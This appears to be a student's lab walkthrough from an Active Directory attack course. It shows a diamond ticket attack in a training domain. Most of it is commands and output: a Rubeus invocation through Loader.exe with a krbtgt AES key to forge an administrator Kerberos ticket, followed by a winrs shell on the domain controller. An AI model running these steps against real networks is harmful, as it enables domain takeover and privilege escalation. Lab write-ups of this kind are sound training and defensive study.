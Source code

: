 # Learning Objective 10

## Tasks

1. **Use domain admin privileges obtained earlier to execute the diamond ticket attack**

---

## Solution

1. **Use domain admin privileges obtained earlier to execute the diamond ticket attack**

We can simply use the following Rubeus command to execute the attack.
Note that the command needs to be run from an elevated shell ('run as administrator'). We take the usual OPSEC care of using Loader.

![Run as administrator](./assets/screenshots/learning_objectives_run_as_administrator.png)

![Victim: dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`whoami`:
```
dcorp\student422
```

`hostname`:
```
dcorp-std422
```

`whoami /groups`:
```
GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes

========================================== ================ ============================================= ===============================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators📌                   Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner✅
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
dcorp\RDPUsers                             Group            S-1-5-21-719815819-3726368948-3917688648-1123 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`:
```
[SNIP]

[*] Action: Diamond Ticket📌

[*] Showing process : True
[*] Username        : MZBPYDM3
[*] Domain          : LYOCO7MX
[*] Password        : B89I5HTT
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 3252
[+] LUID            : 0x626d5a

[*] No target SPN specified, attempting to build 'cifs📌/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/dcorp-dc.dollarcorp.moneycorp.local'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: 5Gs8379n58wpVLIc13YhnzmmPL9MOAbONZb0NbtgacY=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

[SNIP]

[*] Decrypting TGT
[*] Retreiving PAC
[*] Modifying PAC
[*] Signing PAC
[*] Encrypting Modified TGT

[*] base64(ticket.kirbi):

[SNIP]

[*] Target LUID: 0x626d5a
[+] Ticket successfully imported!
```

Access the DC using winrs from the new spawned process!

![New spawned terminal process](./assets/screenshots/learning_objective_10_new_spawned_terminal_process.png)

![Victim: dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`whoami`:
```
dcorp\student422
```

`hostname`:
```
dcorp-std422
```

`whoami /groups`:
```
ERROR: Unable to get group membership information.
```
❌

`klist`:
```
Current LogonId is 0:0x626d5a

Cached Tickets: (1)

#0>     Client: administrator🎭 @ DOLLARCORP.MONEYCORP.LOCAL
        Server: krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
        Start Time: 2/13/2025 7:09:52 (local)
        End Time:   2/13/2025 17:09:43 (local)
        Renew Time: 2/20/2025 7:09:43 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

`winrs -r:dcorp-dc cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator>
```
🚀

![Victim: dcorp-dc | administrator](https://custom-icon-badges.demolab.com/badge/dcorp--std422-administrator-64b5f6?logo=windows11&logoColor=white)

`whoami`:
```
dcorp\administrator
```

`hostname`:
```
dcorp-dc
```

---
---
